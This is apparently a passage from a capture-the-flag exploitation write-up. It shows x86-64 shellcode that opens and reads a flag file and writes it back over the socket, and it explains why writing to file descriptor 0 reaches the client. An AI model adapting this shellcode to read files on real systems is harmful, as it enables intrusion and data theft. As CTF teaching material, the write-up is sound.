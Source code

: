 ```py
            if b == ord(c):
                printable += chr(b)

    print(printable)


if __name__ == "__main__":
    main()
```

Something I can suggest to fellow pwn-players is making use of pwntools; it `asm` function is extremely powerful, and automatic rop-gadget finding is extremely good, especially if you just CBA.

Some amongst you may have noticed something strange, specifically inside some of my shellcode:

```asm
    ; openat(0, "/home/fbi/flag.txt", O_RDONLY, 0);
    mov rax, 0x101
    mov rsi, rdi
    xor rdi, rdi
    xor rdx, rdx
    xor r10, r10
    syscall
    
    ; read(flag_fd, rsp, 0x50)
    mov rdi, rax
    mov rax, 0
    mov rsi, rsp
    mov rdx, 0x50
    syscall
    
    ; write(0, rsp, 0x50)
    mov rax, 1
    mov rdi, 0
    syscall
```

Specifically the last 2/3 lines. How on earth does that work? We know writing to stdin is possible, of course you can write into the stdin of another terminal session and ruin someones day, but how are we able to recieve it the same way we would recieve stdout from the server?

## A tale of sockets and servers

This is, in all actuality pretty easy to explain. Take a look at this diagram:

![Socket/Client diagram](https://www.cs.uregina.ca/Links/class-info/330/Sockets/server-client.png)

[here](https://www.cs.uregina.ca/Links/class-info/330/Sockets/sockets.html)

A server, like the one our challenge was running on will listen for a connection, and wait in a loop, `accept()`ing any connections that come its way. `accept()` will then give the server a file descriptor which can be used to communicate with the client. Its important to note that this is FULL duplex; if I, as the server want to read OR write data to/from the client, I use this pipe as the sole medium to do so.
